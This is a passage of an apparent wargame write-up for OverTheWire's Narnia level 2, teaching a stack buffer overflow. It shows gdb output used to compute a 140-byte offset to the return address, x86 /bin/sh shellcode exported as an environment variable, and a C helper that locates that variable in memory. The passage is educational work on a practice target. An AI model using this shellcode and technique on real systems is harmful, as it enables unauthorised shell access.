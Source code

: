 We create a break point right before the exit:

```
(gdb) b *main+97
Breakpoint 1 at 0x8048485
```

We run our program, feeding it with an argument of size 30 and we look to the memory (esp is the Stack pointer). The second value, **0xffffd610**, indicates the start of the frame:
```
(gdb) r `python -c 'print "B"*30'`
(gdb)  x/30xw $esp
0xffffd600: 0x08048574  0xffffd610  0x00000001  0xf7ebf729
0xffffd610: 0x42424242  0x42424242  0x42424242  0x42424242
0xffffd620: 0x42424242  0x42424242  0x42424242  0xf7004242
0xffffd630: 0x08048258  0x00000000  0x00ca0000  0x00000001
0xffffd640: 0xffffd86d  0x0000002f  0xffffd69c  0xf7fcaff4
0xffffd650: 0x08048490  0x08049750  0x00000002  0x080482fd
0xffffd660: 0xf7fcb3e4  0x00008000  0x08049750  0x080484b1
0xffffd670: 0xffffffff  0xf7e59d46
```

Now, looking  to the information about the frame, we get the return address at **0xffffd69c**:

```
(gdb) i f
Stack level 0, frame at 0xffffd6a0:
 eip = 0x8048485 in main; saved eip 0xf7e404b3
 Arglist at 0xffffd698, args:
 Locals at 0xffffd698, Previous frame's sp is 0xffffd6a0
 Saved registers:
  ebp at 0xffffd698, eip at 0xffffd69c
```

To find the size of the frame we subtract these values:

```
(gdb) p 0xffffd69c-0xffffd610
$1 = 140
```

So we know that 140 bytes are needed to reach the return address, where we will add our pointer.



### Step 3: Finding the EGG ShellCode Address

Where do we want to point the return address to? Well, we already know  a way to spawn a shell: using an environment variable:

```sh
narnia2@melinda:/tmp$ export EGG=`python -c'print "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x50\x89\xe1\xb0\x0b\xcd\x80"'
```

To find the address of **EGG** we use the following **C** code:
```c
narnia2@melinda:/tmp$ cat getbashadd.c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int main(int argc,char *argv[]){
        char *ptr;
        ptr = getenv(argv[1]);
        ptr += (strlen(argv[0])-strlen(argv[2]))*2;
        printf("%s is at %p\n", argv[1],ptr);
        return 0;
}
```


[inputs with no bounds checking]: http://en.wikipedia.org/wiki/Bounds_checking
[buffer overflow]: http://en.wikipedia.org/wiki/Buffer_overflow
[process's virtual memory]: http://en.wikipedia.org/wiki/Virtual_memory
[physical memory]: http://en.wikipedia.org/wiki/Computer_memory
[virtual memory space]: http://en.wikipedia.org/wiki/Virtual_memory
[direction of which the Stack grows]: https://stackoverflow.com/questions/664744/what-is-the-direction-of-stack-growth-in-most-modern-systems
[segmentation violation]: http://en.wikipedia.org/wiki/Segmentation_fault
[Heap]: http://en.wikipedia.org/wiki/Heap_(data_structure)
[Python & Algorithms]: https://github.com/bt3gl/Python-and-Algorithms-and-Data-Structures/blob/master/book/book_second_edition.pdf
[here are some examples]: https://github.com/bt3gl/Python-and-Algorithms-and-Data-Structures/tree/master/src/abstract_structures/Stacks
[WarGames]: http://overthewire.org/wargames
[Narnia]: http://overthewire.org/wargames/narnia
[Aleph One]: http://en.wikipedia.org/wiki/Elias_Levy
[Phrack magazine]: http://www.phrack.org/
[Smashing the Stack for Fun or Profit]: http://insecure.org/stf/smashStack.html
[Peter Jay Salzman]: http://www.dirac.org/linux/gdb/
[this cheat sheet]: http://darkdust.net/files/GDB%20Cheat%20Sheet.pdf
[nice Assembly guide]: http://www.drpaulcarter.com/pcasm/
[run a binary and read its C code]: http://www.thegeekstuff.com/2011/10/c-program-to-an-executable/
[little-endian]: http://en.wikipedia.org/wiki/Endianness
[x86]: http://en.wikipedia.org/wiki/X86
[ASCII]: http://en.wikipedia.org/wiki/ASCII
[hexadecimal representation]: http://en.wikipedia.org/wiki/Hexadecimal
[Shellshock guide]: http://bt3gl.github.io/understanding-the-shellshock-vulnerability.html
[very introductory guide]: http://www.thegeekstuff.com/2010/03/debug-c-program-using-gdb/
[comprehensive guide]: http://www.dirac.org/linux/gdb/
[0xdeadbeef]: http://en.wikipedia.org/wiki/Hexspeak
[Appendix A]: http://insecure.org/stf/smashStack.html
[/dev/null]: http://en.wikipedia.org/wiki/Null_device
[ASLR]: http://en.wikipedia.org/wiki/Address_space_layout_randomization
[NOPs]: http://en.wikipedia.org/wiki/NOP